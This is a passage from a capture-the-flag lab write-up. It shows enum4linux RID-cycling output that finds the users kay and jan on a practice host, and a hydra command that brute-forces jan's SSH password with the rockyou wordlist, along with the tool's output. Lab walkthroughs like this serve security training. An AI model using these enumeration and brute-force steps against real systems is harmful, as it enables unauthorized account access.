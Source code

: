 ```

[+] Getting domain groups:

[+] Getting domain group memberships:

 ========================================================================
|    Users on 10.10.201.220 via RID cycling (RIDS: 500-550,1000-1050)    |
 ========================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2853212168-2008227510-3551253869
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-5-21-2853212168-2008227510-3551253869 and logon username '', password ''
S-1-5-21-2853212168-2008227510-3551253869-500 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-501 BASIC2\nobody (Local User)


 ==============================================
|    Getting printer info for 10.10.201.220    |
 ==============================================
No printers returned.


```
We can see now that there're two users: jan and kay
The weak password is probably for jan user!  
### Brute-Forcing SSH login prompt  
To bruteforce ssh we'll use ```hydra```

```hydra -l jan -P ~/tools/SecLists/Passwords/rockyou.txt ssh://10.10.201.220```
```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-21 11:30:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.201.220:22/
[STATUS] 179.00 tries/min, 179 tries in 00:01h, 14344222 to do in 1335:36h, 16 active
